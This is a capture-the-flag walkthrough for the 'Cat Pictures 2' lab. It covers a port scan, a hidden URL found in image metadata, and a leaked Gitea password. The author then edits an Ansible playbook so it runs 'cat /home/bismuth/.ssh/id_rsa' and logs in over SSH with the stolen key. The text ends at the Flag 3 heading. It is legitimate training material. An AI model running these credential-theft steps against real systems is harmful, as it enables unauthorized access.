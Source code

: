 # Cat Pictures 2

## Port Scan
```
 kewl@h4x0r > ~/Desktop/leet/l > rustscan -a 10.10.158.237 -t 5000 -- -sV
...
...
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     syn-ack OpenSSH 9.0 (protocol 2.0)
1337/tcp open  waste?  syn-ack
3000/tcp open  ppp?    syn-ack
8080/tcp open  http    syn-ack SimpleHTTPServer 0.6 (Python 3.6.9)
...
...
```

Lychee is hosted on 10.10.158.237:80 , Gitea on port 3000 and OliveTin on port 1337

## Flag 1

head over to 10.10.158.237:80 and check the images. Description of the first images says "note to self: strip metadata". Download the imnage and run exfitool on it.

```
 kewl@h4x0r > ~/Desktop/leet/l > exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg | grep Title
Title                           : :8080/[REDACTED].txt
```

Now head over to 10.10.158.237:8080/[REDACTED].txt

```
 kewl@h4x0r > ~/Desktop/leet/l > curl http://10.10.158.237:8080/[REDACTED].txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: [REDACTED]

ansible runner (olivetin): port 1337
```

Lets use the password to log into samarium's Gitea account.
The user owns a private repo with the name "ansible"

![](1.png)

## Flag 2
Now lets check ansible runner (olivetin) at port 1337.
Click on "Run Ansible Playbook" and wait for it to finish and check the logs<br>
![](2.png)

There is user named "bismuth". lets check if this user has a ssh key.<br>
Remember that we can edit playbook.yaml in ansible repo to execute the commands we want.
change "whoami" to "cat /home/bismuth/.ssh/id_rsa"
```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: cat /home/bismuth/.ssh/id_rsa
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```
Head over to OliveTin and run ansible playbook.
![](3.png)<br>
Use the private key to log into bimuth's account using ssh
```bash
chmod 600 bismuth_key
ssh -i bismuth_key bismuth@10.10.158.237
```
```bash
bismuth@catpictures-ii:~$ ls
flag2.txt
bismuth@catpictures-ii:~$ cat flag2.txt
[REDACTED]
```

## Flag 3
